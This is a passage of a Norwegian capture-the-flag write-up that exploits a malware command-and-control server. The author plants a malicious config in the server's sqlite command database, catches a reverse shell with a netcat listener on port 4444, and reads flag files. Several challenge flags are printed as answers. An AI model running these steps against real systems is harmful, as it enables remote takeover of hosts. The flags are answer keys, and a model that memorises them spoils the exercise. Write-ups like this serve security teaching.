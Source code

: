 ```java
    System.exit(0);
}
```

Dette gir oss `malicious_config`, som vi skal bruke videre.
Gjorde et par endringer til mens jeg lekte meg. Disse påvirker ikke oppdraget, men du finner de [her](c2_scripts/modified_client_source).

Neste steg var å legge til objektet i kommando-databasen til c2-serveren, slik at `test-3` klienten hentet det under neste innsjekk. Heldigvis hadde jeg direkte tilgang til sqlite3 databasen gjennom `c2` brukeren, så denne problemstillingen slapp jeg å tenke på. :innocent: Lagde et [skript](c2_scripts/add_command_to_db.py) for å gjøre dette.

```bash
nc -lvnp 4444 &
scp -i 2_oppdrag/sshkey_c2@shady-aggregator malicious_config c2@shady-aggregator:
ssh -i 2_oppdrag/sshkey_c2@shady-aggregator c2@shady-aggregator
cd app
python3 add_command_to_db.py DEADBEEFDEADBEEF 1 ../malicious_config
exit
fg
whoami
# oper
uname -a
# Linux cloud-hq-79 5.4.0-1094-azure #100~18.04.1-Ubuntu SMP Mon Oct 17 11:44:30 UTC 2022 x86_64 GNU/Linux
cat /home/oper/FLAGG
# FLAGG: 80e125e2403402c9486c94eb3b276482
```

```text
Kategori: 2. Oppdrag
Oppgave:  2.09_cloud-hq
Svar:     80e125e2403402c9486c94eb3b276482
Poeng:    10

Det er noe veldig tilfredstillende med å utnytte sårbarheter i skadevare.

Dette ser ut som operatøren bak angrepet mot kraftverket. Jeg legger ssh-nøkkelen hans i oppdragsmappen din mens du går gjennom koden som ligger her.

Ny fil: /home/login/2_oppdrag/sshkey_cloud-hq
```

---

## 2.10_infrastruktur

På `cloud-hq-79` finner vi den komplette kildekoden til skadevaren i `/home/oper/src`. Blant denne ligger det en fil kalt `GenCommand.java`. Dette er koden som ble brukt for å generere kommandoer, og inni den ligger det et vakkert flagg:

```java
static String FLAG = "c4381f44298bb0dede6c185dc2406a40";
```
